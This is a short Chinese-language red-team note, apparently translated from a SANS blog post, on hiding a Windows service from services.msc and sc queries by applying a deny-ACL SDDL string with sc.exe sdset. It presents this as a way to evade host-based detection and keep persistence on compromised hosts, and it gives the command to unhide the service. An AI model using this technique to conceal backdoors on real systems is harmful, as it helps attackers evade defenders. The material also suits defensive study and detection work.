 	Translate from: https://www.sans.org/blog/red-team-tactics-hiding-windows-services/
	Windows的一个功能允许红队或攻击者将服务隐藏起来，从而为逃避基于主机的常见威胁搜寻技术的检测提供了机会。
	这里假设Fax服务是我们的恶意文件或后门
	打开services.msc可以看到服务
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/849.png)
	
	执行命令可以看到服务
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/850.png)

	管理员权限下执行以下命令，安全标识符定义语言(SDDL)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/851.png)

	& $env:SystemRoot\System32\sc.exe sdset SWCUEngine "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/852.png)
	
	可以看到已经查询不到了
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/853.png)

	在红队或渗透测试中，这可能是一种有用的技术，可以在受感染主机上保持持久性。重启后，隐藏的服务也会自动启动。
	取消隐藏的命令
	& $env:SystemRoot\System32\sc.exe sdset SWCUEngine "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;  CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
